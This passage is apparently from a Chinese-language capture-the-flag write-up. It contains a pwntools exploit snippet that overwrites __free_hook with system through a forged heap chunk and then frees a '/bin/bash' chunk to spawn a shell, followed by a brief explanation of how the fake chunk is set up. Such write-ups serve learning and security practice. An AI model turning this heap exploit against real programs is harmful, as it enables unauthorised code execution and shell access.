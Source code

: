   ```python
        node_del(r, 9)
        free_hook = lib_base + lib_file.sym['__free_hook'] - 0x7f0d689bbb28 + 0x7f0d687f6b28
        log.info('__free_hook => %x'%(free_hook))
        node_add(r, 0x78, p64(0) * ((0x70 - 0x30) / 0x8) + p64(0) + p64(0x81) + p64(free_hook), 'a\n')                          #1 chunk_base + 0x30
        node_add(r, 0x78, '/bin/bash\x00', 'a\n')                       #2 chunk_base + 0x80

        system = lib_base + lib_file.sym['system'] - 0x7f0d688449f0 + 0x7f0d6867f9f0
        log.info('system => %x'%(system))
        node_add(r, 0x78, p64(system), 'a\n')


        node_del(r, 2)
        r.interactive()
```

  这里需要特别说明一下，由于fake chunk的大小是0x470，我们无法分配到。因此，我们首先需要通过覆写`idx = 0`的chunk，重新设置fake chunk的大小。
  另一方面，由于之后会释放该fake chunk，因此需要覆写`idx = 1`的chunk，为其绕过检查构造出一个0x20的正在使用的pre chunk、两个0x20的正在使用的next chunk。
